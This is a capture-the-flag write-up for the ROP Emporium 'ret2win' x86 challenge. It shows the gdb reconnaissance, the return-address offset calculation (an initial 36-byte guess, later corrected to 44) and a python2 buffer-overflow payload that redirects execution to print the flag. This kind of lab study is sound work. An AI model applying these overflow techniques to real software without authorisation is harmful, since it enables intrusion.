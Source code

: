 ### ret2win x86
Run the binary will see following message.

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

It also tells us that there is a function named ret2win and will cat the flag.txt. Therefore,  we only need to overwrite the return address to the address of the syscall in ret2win function.
Use gdb to gather information.
```
gdb ./ret2win32
```
Check the security of ret2win32.
```
gdb$ checksec

```
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
No canary, no pie.
List all functions.
```
gdb$ info functions
```
```
...
0x08048546  main
0x080485ad  pwnme
0x0804862c  ret2win
...
```
There is indeed a function called ret2win.

Disassembly ret2win to obtain the return address.
```
gdb$ disas ret2win 
```
```
...
0x08048645 <+25>:    push   0x8048813
0x0804864a <+30>:    call   0x80483e0 <system@plt>
...
```
The address of the syscall is 0x08048645.

Overflow length will be 32 bytes(buffer) + 4 bytes (RBP) = 36 bytes.

Therefore, the overflow strings will be:
```
A'*36+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*36+'\x45\x86\x04\x08'" | ./ret2win32
```
It will get wrong answer, so we need to find correct overflow length.

Disassambly pwnme function.
```
gdb$ pwnme
```
```
...
0x08048611 <+100>:   call   0x80483b0 <read@plt>
0x08048616 <+105>:   add    esp,0x10
0x08048619 <+108>:   sub    esp,0xc
0x0804861c <+111>:   push   0x80487eb
0x08048621 <+116>:   call   0x80483d0 <puts@plt>
0x08048626 <+121>:   add    esp,0x10
0x08048629 <+124>:   nop
0x0804862a <+125>:   leave
0x0804862b <+126>:   ret

```
Set the breakpoints right after read call and return.
```
gdb$ b * 0x08048616
gdb$ b * 0x0804862b
```
Run the program.
```
gdb$ r
```
Input some characters, such as aaaaaaaaa.
```
>aaaaaaaaaa
```
Process will pause at breakpoint 1, and we can see the buffer's starting address in stack.
```
...
0008| 0xffffd4d8 --> 0x38 ('8')
0012| 0xffffd4dc --> 0x4
0016| 0xffffd4e0 ('a' <repeats 17 times>, "\n")
...
```
We run the process continuely, and we will see the return address in stack.
```
gdb$ c
```
```
0000| 0xffffd50c --> 0x8048590 (<main+74>:      sub    esp,0xc)
...
```
Now, we know the overflow length is 0xffffd50c - 0xffffd4e0 = 0x2c = 44.

Therefore, the overflow strings will be:
```
A'*44+'\x45\x86\x04\x08'
```
Run the program with overflow strings:
```
python2 -c "print 'A'*44+'\x45\x86\x04\x08'" | ./ret2win32
```
It will show the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
Or sue ghidra to see the reverse code, will found that the buffer used to read input is infact 0x28 not 0x20. Therefore, the overflow length will be 40 bytes(buffer) + 4 bytes (RBP) = 44 bytes.
